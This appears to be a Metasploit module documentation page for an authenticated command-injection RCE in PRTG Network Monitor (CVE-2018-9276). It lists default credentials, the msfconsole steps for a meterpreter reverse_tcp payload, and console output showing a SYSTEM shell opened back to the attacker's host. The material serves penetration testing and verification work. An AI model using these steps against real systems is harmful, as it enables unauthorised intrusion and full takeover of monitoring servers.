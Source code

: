 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in PRTG Network Monitor product (CVE-2018-9276).

Notifications can be created by an authenticated user and can execute scripts when triggered. Due to a poorly validated input on the script name, it is possible to chain it with a user-supplied command, allowing command execution under the context of privileged user.

The module uses provided credentials to log in to the web interface, then creates and triggers a malicious notification to perform RCE using a Powershell payload.

This vulnerability affects versions prior to 18.2.39.

**Vulnerable Application Installation**

PRTG provides a trial version for free (https://www.paessler.com/prtg/download) but it is always updated to the latest version, which won't allow you to test for the vulnerability.

While a version history can be found on the vendor's website (https://www.paessler.com/prtg/history) it does not provide any download link. The solution I found to get old versions was to Google "PRTG Network Monitor 18 trial download" and hopefully found archived trial versions to download (ex : https://prtg-network-monitor.informer.com/versions/). There were not coming from the official website and no hash was provided by the vendor to verify the file integrity, so I made sure to execute them in a sandboxed environment.

Once downloaded the setup is pretty straightforward, a trial link to PRTG website is provided for a free trial license key to enter. Once deployed the service is available on port 80 with the default credentials `prtgadmin`/`prtgadmin`. Any configuration can be made through the web interface or with `PRTG Enterprise Console` (automatically installed). Note that you may need to wait a few minutes for the setup to complete totally.

PRTG Network Monitor is also available on the "Netmon" lab from Hack The Box, it is quite useful for testing because easy to deploy and reset, but requires a premium account (10£/month).

**Successfully tested on**

- PRTG Network Monitor 18.1.38.11958 on Windows 2012 R2 x64 (downloaded from https://prtg-network-monitor.informer.com/18.1)
- PRTG Network Monitor 18.1.37.13946 on Windows 2016+ x64 (on the Hack The Box machine)

## Verification Steps
1. Install the application
1. Start `msfconsole`
1. Do: `use exploit/windows/http/prtg_authenticated_rce`
1. Do: `set PAYLOAD windows/meterpreter/reverse_tcp`
1. Do: set `RHOST`, `LHOST` and HTTP-specific parameters if needed
1. Do: set `ADMIN_USERNAME` and `ADMIN_PASSWORD` with PRTG Network Monitor credentials (default `prtgadmin`/`prtgadmin`)
1. Do: `chek` 
1. **Verify** that you are seeing `The target is vulnerable.` in console.
1. Do: `run` 
1. **Verify** that you are seeing success logs in console (successfully logged in, created notification, etc..)
1. **Verify** that you are seeing `Sending stage to <TARGET>` in console.
1. You should get a shell

In my experience steps 10-12 may require a few tries to work because notifications are queued up before execution on the server. Augmenting `WfsDelay` to 30 seconds did the trick, so it is set by default.

## Options
### ADMIN_USERNAME

PRTG Network Monitor's account that has the right to create Notifications (allowed by default on the initial account).

### ADMIN_PASSWORD

The password associated with the specified username.

### VERBOSE

Setting `VERBOSE` to `true` displays the raw Powershell payload in console for manual testing.

## Scenarios
Checking if a target is vulnerable based on the version in use :

```
msf > use exploit/windows/http/prtg_authenticated_rce 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/prtg_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(windows/http/prtg_authenticated_rce) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD prtgadmin
ADMIN_PASSWORD => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > set VERBOSE true
VERBOSE => true
msf exploit(windows/http/prtg_authenticated_rce) > check

[*] Identified PRTG Network Monitor Version 18.1.37.13946
[*] x.x.x.x:80 - The target appears to be vulnerable.
```

Getting a shell on PRTG Network Monitor using a sufficiently privileged account credentials :

```
msf > use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/prtg_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(windows/http/prtg_authenticated_rce) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD prtgadmin
ADMIN_PASSWORD => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > run

[*] Started reverse TCP handler on y.y.y.y:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=zzzz)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to x.x.x.x
[*] Meterpreter session 1 opened (y.y.y.y:4444 -> x.x.x.x:49223) at 2021-01-18 11:04:22 +0100

meterpreter > getuid
Server username: AUTORITE NT\System
```
